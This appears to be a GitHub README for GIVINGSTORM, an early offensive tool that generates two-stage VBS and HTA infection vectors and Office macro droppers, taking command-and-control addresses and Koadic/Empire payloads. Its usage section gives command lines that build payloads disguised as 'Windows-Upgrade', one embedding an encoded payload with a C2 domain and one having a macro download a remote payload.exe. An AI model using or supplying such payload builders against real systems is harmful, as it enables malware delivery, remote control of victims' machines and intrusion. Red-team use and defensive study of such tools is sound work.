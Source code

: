 # GIVINGSTORM
[[![MIT license](https://img.shields.io/badge/License-MIT-blue.svg)](https://lbesson.mit-license.org/)
[![PyPI pyversions](https://img.shields.io/pypi/pyversions/ansicolortags.svg)](https://pypi.python.org/pypi/ansicolortags/)
[![Maintenance](https://img.shields.io/badge/Maintained%3F-yes-green.svg)](https://GitHub.com/Naereen/StrapDown.js/graphs/commit-activity)

The beginnings of a C2 framework. Currently without all the C2 stuff so far. Generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
GIVINGSTORM is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  `python3 givingstorm.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain`

# HTA Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/hta.png)

For the Macro Subroutine:
  `python3 givingstorm.py -n Windows-Upgrade -e amazon.com/final/payload.exe`

# Macro Example
![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/macro.png)
